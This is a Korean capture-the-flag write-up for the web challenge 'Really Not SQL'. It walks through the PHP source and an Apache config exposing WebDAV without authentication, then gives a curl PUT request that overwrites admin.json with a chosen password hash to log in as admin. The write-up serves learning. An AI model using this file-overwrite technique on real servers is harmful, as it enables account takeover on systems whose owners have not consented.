

# ( Web | Really Not SQL )

### 문제 설명

---

Really not SQL, Just JSON

[edit_profile.php](edit_profile.php)

[flag.php](flag.php)

[login.php](login.php)

[000-default.conf](000-default.conf)

# Writeup

---

## Source Code Reading

- **`login.php`**
    
    ```php
    <?php
    session_start();
    
    if ($_SERVER['REQUEST_METHOD'] === 'POST') {
        $userDir = __DIR__ . '/user/';
        $username = $_POST['username'] ?? '';
        $password = $_POST['password'] ?? '';
    
        $filename = $username . '.json';
        $filepath = $userDir . $filename;
    
        if ($username !== "admin" && $username !== "guest") {
            $error = "User not found";
        } else {
            $userData = json_decode(file_get_contents($filepath), true);
            if ($userData['id'] !== $username){
                $error = "Error occured";
            } else if ($userData['password'] !== hash("sha256", $password)) {
                $error = "Invalid password";
            } else {
                $_SESSION['user'] = $username;
                $success = true;
            }
        }
        
    }
    ?>
    ```
    
    - username이 admin이나 guest가 아니면 거절
    - `user/{username}.json`  읽어서 id, pw 비교
- **`edit_profile.php`**
    
    ```php
    if ($_SESSION['user'] !== "admin") {
        $error = "Only admin can edit user profile";
    }
    ```
    
    - 여기서 `die()` 나 `exit()` 없음 → 에러만 세팅하고 코드 계속 실행
    
    ```php
    if ($_SERVER['REQUEST_METHOD'] === 'POST' && $_SESSION['user'] === "admin") {
    ```
    
    - but 여기서 한 번 더 admin인 지 체크 → 실익 없음
- **`flag.php`**
    - `$_SESSION['user'] === "admin"`일 때만 `/flag` 내용을 출력
- **`000-default.conf`**
    
    ```
    <Directory /var/www/html/user/>
          DAV On
          Options Indexes
          AllowOverride All
          Require all granted
      </Directory>
    ```
    
    - `DAV on` → `/user/` 디렉토리에서 WebDAV 메서드 활성화
    - `Require all granted` → 인증 없이 누구나 메서드 사용 가능

## Attack Scenario

처음에는 php 파일들 해석을 AI에게 맡겨 확인함

그러나 발견되는 취약점 없음 → 뭐지?

`/user/admin.json` 에 연결하여 해싱 된 password 값을 크래킹 해야 하는 문제인가 고민

그러다 하게 된 생각 `admin.json` 파일을 수정할 수는 없을까…

아무리 생각해도 답 안 나옴 → writeup 검색

코드 리딩 보는데 내가 보지 않았던 `.conf` 파일 리딩을 확인

AI에게 물어보니 PUT 메서드와 같은 수정 메서드 사용이 가능함



```
python3 -c "import hashlib; print(hashlib.sha256(b'1234').hexdigest())"
```

으로 1234의 sha256 해시 값 뽑고

```
curl -X PUT "http://host3Ldreamhack.games:9193/user/admin.json"\
-H "Content-Type: applicatiokn/json"\
--data '{"id":"admin","password":"<위에서나온해시값>"}'
```

으로 `admin.json`에 PUT 메서드 요청 보내서 비밀번호 1234로 수정


바꾼대로 `id: admin, password: 1234` 입력하면 로그인 성공


`/flag.php` 접속